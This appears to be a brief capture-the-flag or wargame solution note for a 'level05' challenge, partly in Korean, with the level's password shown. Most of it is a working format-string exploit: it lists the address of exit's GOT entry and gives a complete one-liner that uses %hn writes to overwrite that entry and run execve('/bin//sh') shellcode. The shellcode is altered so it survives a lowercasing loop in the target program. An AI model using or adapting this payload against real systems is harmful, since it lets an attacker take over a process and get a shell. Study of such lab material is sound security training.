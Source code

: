 > Password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

for (int i = 0; i < strlen(s); i++) {
  if (is_upper(s[i])) {
    s[i] = to_lower(s[i]);
  }
}

위 코드때문에 쉘코드의 0x50 (push %eax)가 손상되는데, 그것을 막기 위해서 0x6a 0x00 (pushl 0)으로 대체했다.

0xffffd6dc - stack start

0x80497e0 - <exit@got.plt>

cat <(echo -ne '\xe0\x97\x04\x08....\xe2\x97\x04\x08%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%54946d%hn%10577d%hn\x90\x90\x90\x90\x90\x90\x31\xc0\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80') - | /home/users/level05/level05
